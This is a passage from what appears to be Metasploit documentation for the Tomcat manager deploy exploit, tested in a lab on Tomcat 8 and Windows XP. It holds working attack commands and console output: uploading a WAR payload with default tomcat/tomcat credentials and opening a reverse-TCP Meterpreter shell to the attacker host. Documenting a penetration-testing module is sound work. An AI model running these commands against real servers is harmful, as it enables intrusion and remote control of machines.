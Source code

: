     target => 1
    msf exploit(tomcat_mgr_deploy) > check
    [*] 192.168.2.108:8087 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_deploy) > exploit

    [*] Started reverse TCP handler on 192.168.2.117:4444
    [*] Using manually select target "Java Universal"
    [*] Uploading 6086 bytes as Cl6t6gurtwIO59zV3Lt6.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing /Cl6t6gurtwIO59zV3Lt6/qTIP.jsp...
    [*] Undeploying Cl6t6gurtwIO59zV3Lt6 ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:1656) at 2017-01-14 14:27:21 -0500

    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    ```

### Tomcat 8 (8.0.39)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat8](http://apache.osuosl.org/tomcat/tomcat-8/v8.0.39/bin/apache-tomcat-8.0.39.exe)

The install was default, other than adding a user during install.  No other options were changed.
Of note, the user was given `manager-gui` permissions by default.

#### text/script Interface Exploitation

1. Edit `C:\Program Files\Apache Software Foundation\Tomcat 8.0\tomcat-users.xml` to add the following under the `<tomcat-users` line:

    ```
    <role rolename="manager-script"/>
    <user username="tomcat" password="tomcat" roles="manager-script"/>
    ```

2. Restart the service

3. Exploitation:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_deploy) > set rport 8088
    rport => 8088
    msf exploit(tomcat_mgr_deploy) > set payload java/meterpreter/reverse_tcp
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set target 1
    target => 1
    msf exploit(tomcat_mgr_deploy) > exploit
    msf exploit(tomcat_mgr_deploy) > set path /manager/text